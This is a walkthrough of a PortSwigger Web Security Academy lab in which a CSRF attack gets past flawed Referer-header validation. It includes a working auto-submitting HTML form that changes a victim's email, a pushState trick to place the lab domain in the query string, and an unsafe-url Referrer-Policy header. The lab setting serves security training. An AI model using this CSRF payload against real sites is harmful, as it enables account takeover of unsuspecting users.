








[Source](https://portswigger.net/web-security/csrf/bypassing-referer-based-defenses/lab-referer-validation-broken)
## Task
In this lab, the email address change function is vulnerable to CSRF. It attempts to detect and block cross-domain requests, but the detection mechanism can be bypassed.
To solve the task, we use an exploit server where we host an HTML page with a CSRF attack that changes the email address of the viewing user.
We can log in to our account using the following credentials: `wiener:peter`
## Solution
Go to the task site



Log in as user `wiener`, change the email and intercept the request via `Burp Suite`


Send the request to `Burp Repeater`. Notice that if we change the domain in the `Referer` header, the request is rejected.



Copy the original domain of our lab and add it to the `Referer` header as a query string. The result should look something like this:
```URL
Referer: https://arbitrary-incorrect-domain.net?YOUR-LAB-ID.web-security-academy.net
```



We send the request and see that it is now accepted. It seems that the site accepts any `Referer` header, as long as the expected domain is somewhere in it.
We create a PoC exploit for CSRF, as described in the solution to the lab about [[CSRF vulnerability without protections]], and place it on the exploit server. Edit `JavaScript` so that the third argument of the `history.pushState()` function includes a query string with the lab address, for example:
```HTML
history.pushState("", "", "/?YOUR-LAB-ID.web-security-academy.net")
```



```HTML
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://0ae4008e03ff414d846a22f7007400c3.web-security-academy.net/my-account/change-email" method="POST">
      <input type="hidden" name="email" value="test&#64;gmail&#46;com" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/?0ae4008e03ff414d846a22f7007400c3.web-security-academy.net');
      document.forms[0].submit();
    </script>
  </body>
</html>
```



This will force the `Referer` header in the crafted request to contain the target site's URL in the query string, as we tested earlier.
If we save the exploit and click `View exploit`, we may see an "invalid Referer header`" error. This is because many browsers by default remove the query string from the `Referer` header for security reasons. To override this behavior and ensure that the full URL is included in the request, we go back to the exploit server and add the following header to the `Head` section:
```Request
Referrer-Policy: unsafe-url
```

>**Note**  
>There is no typo in the word "Referrer" here - it is spelled correctly in this case.

Change the email address in the exploit to one that does not match our own.



Click `Store` and `Deliver exploit to victim`


